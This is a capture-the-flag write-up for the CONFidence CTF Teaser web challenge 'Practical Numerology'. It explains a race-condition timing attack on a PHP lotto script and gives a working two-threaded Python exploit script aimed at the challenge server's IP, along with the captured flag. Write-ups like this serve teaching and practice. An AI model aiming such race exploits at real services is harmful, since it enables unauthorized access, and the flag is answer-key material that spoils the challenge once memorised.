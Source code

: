 # CONFidence CTF Teaser Practical Numerology

**Category:** Web
**Points:** 300
**Solves:** 56
**Description:**

> Here's a [lotto script](index.php), running on my [old and slow computer](134.213.136.172). Can you pwn it?  

## Write-up

by [HoLyVieR](https://github.com/HoLyVieR)

### Explanation

This challenge was a timing attack against the server. The server performs the following steps when we give him a wrong guess:

 1. Outputs the expected answer.
 2. Outputs the guess we provided.
 3. Updates the session with a new answer.
 
If we manage the make the step 2 take relatively long amount of time, we can have a window where we know the expected answer and it hasn't been updated yet. To make the step 2 take a long amount of time, we can simply send a guess with a really long value. In the example below, I used a value with a length of 1000000. 

### Script

	import httplib
	import thread

	# Shared value that the first thread will write the expected value
	aaa = ""

	# Thread 1 does the request that take a long amount of time and sends the
	# results to Thread 2 with the shared value.
	def thread1(abc):
		global aaa

		try:
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			conn1 = httplib.HTTPConnection("134.213.136.172")
			conn1.request("POST", "/", "guess=" + ("a"*1000000), headers)
			
			# Reading only the expected value will not wait for everything to be received.
			g = conn1.getresponse().read(92)
			
			# Sending it to Thread 2
			aaa = g[8:8+80]
		except Exception:
			import traceback
			print traceback.format_ex
		
	# Thread 2 receives the value from Thread 1 and sends it before the flag 
	# is updated.
	def thread2(abc):
		global aaa

		try:
			conn2 = httplib.HTTPConnection("134.213.136.172")
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			
			while aaa == "":
				pass
				
			conn2.request("POST", "/", "guess=" + aaa, headers)
			a = conn2.getresponse().read()
			
			# This will output the flag if we sent it just in time.
			print(a)
		except Exception:
			import traceback
			print traceback.format_ex
		
		
	thread.start_new_thread(thread1, ("test",))
	thread.start_new_thread(thread2, ("test",))

	while 1:
	   pass
	   
### Flag

DrgnS{JustThinkOutOfTheBoxSometimes...}

## Other write-ups and resources

* <https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2015/CONFIDENCE_TEASER/web/practicalnumerology>
